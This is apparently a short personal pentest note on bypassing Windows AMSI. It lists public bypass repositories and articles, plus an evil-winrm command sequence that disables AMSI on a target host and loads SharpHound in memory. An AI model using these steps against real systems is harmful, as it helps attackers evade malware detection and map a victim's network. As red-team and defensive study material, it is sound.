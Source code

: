 ```yaml
---
category: Uncategorized
tags: []
---
```

#exploitation
## Testing for Amsi Bypass:

- https://github.com/rasta-mouse/AmsiScanBufferBypass

## Amsi-Bypass-PowerShell

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## using evil-winrm

When you have a winrm shell with evil-winrm you can use the bypass amsi module to bypass amsi detection's on your target: 

```
evil-winrm -i 172.16.1.1 -u afsimmons -p "" -e /opt/privesc
Bypass-4MSI
menu
Invoke-Binary /opt/privesc/SharpHound.exe
```

## Resources:

- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
- https://slaeryan.github.io/posts/falcon-zero-alpha.html
- https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/